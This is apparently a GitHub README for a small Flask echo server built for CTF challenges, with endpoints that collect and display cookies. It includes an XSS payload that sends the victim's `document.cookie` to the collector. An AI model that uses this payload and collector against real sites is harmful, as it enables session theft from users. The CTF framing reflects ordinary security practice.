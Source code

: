 # flask-echo-server

A simple echo server built with flask for CTF

## echo
> Removed options; Just minimal echo server left.

![](screenshots/echo.png)

## cookies
> Farm and view cookies fast!

### farm cookies
Sending a request to `/c?c=COOKIE` adds `COOKIE` to `cookie.txt` in the same directory with `echo.py`.

The following script sends all the accessible cookies in the current document to the server(Can be used in XSS challenges).
```HTML
<script>location.href = "/cookie?c=" + document.cookie;</script>
```

### view collected cookies
Open a browser and go to `/v` and view collected cookies.

![](screenshots/cookie.png)

The screenshot above is the result after I sent `C00K1E-M0n$T3R!!!` three times.
